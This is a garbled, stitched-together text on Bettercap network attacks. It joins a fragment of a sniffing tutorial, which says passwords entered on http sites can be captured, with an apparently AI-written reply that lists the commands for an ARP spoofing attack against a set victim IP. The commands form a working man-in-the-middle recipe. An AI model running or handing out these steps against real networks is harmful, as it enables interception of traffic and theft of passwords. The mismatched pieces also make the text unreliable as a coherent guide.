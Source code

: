 Step 9:**** Turning on the sniffing and catching the packets.

```
net.sniff on
```

![Turning on the sniffing and catching the packets](https://media.geeksforgeeks.org/wp-content/uploads/20201225134626/pic9.png)

**Note**:  After these all steps you can get the data of the targets only for the unsecured sites like the sites with the “http” for the https and the hosts there are some more steps involved in it. For now, you can get all the data entered by the target on the unsecured sites even the passwords. Just perform these steps on the website after signing off a written agreement with the owner of the website.

---



Certainly! Here's a **basic ARP spoofing attack using Bettercap**, with **commands** and a **concise explanation of the options** only.

---

### **Command: Start Bettercap**

```bash
sudo bettercap -iface eth0
```

**Options explained:**

- `-iface eth0`: Specifies the network interface to use (e.g. `eth0`, `wlan0`).
    

---

###  **Command: Set ARP Spoofing Targets**

```bash
set arp.spoof.targets 192.168.1.5
```

**Options explained:**

- `arp.spoof.targets`: IP address of the victim device to spoof. You can set multiple with commas (`,`).
    

---

###  **Command: Enable ARP Spoofing**

```bash
set arp.spoof.internal true
```

**Options explained:**

- `arp.spoof.internal true`: Allows spoofing inside the same subnet (LAN).
    